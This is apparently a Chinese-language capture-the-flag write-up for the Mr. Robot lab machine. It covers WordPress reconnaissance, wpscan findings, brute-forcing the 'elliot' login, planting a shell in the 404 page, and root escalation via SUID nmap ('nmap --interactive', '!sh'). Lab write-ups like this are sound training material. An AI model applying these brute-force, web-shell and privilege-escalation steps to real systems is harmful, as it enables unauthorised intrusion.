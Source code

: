 # Mr.Robot  
## 信息收集   
使用目录扫描的工具进行扫描目录   
![20211016164711](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016164711.png)
wordpress 的页面直接使用wordpress扫漏洞就对了  
另外在 robots.txt 当中发现两个东西 一个是秘密 一个是字典  
![20211016164723](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016164723.png)
##  漏洞扫描 
### wpscan  
使用wpscan进行扫描获得这些漏洞
 | [!] Title: WordPress 4.3-4.7 - Remote Code Execution (RCE) in PHPMailer
 |     Fixed in: 4.3.7
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/8714
 |      - https://www.wordfence.com/blog/2016/12/phpmailer-vulnerability/
 |      - https://github.com/PHPMailer/PHPMailer/wiki/About-the-CVE-2016-10033-and-CVE-2016-10045-vulnerabilities
 |      - https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/24767c76d359231642b0ab48437b64e8c6c7f491
 |      - http://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_phpmailer_host_header


### 字典去重  
cat fsocity.dic|sort|uniq > dict.txt  
直接爆破  
首先爆破用户名 elliot  
然后爆破密码 
404页面写的shell  
![20211016164815](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016164815.png)
得到shell python交互式 
解开md5  
登录之后  
```
find / -perm -u=s -type f 2>/dev/null   
```
![20211016164826](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211016164826.png)
 nmap --interactive 
 !sh  
结束  

echo 'os.execute("/bin/sh")' > getShell  


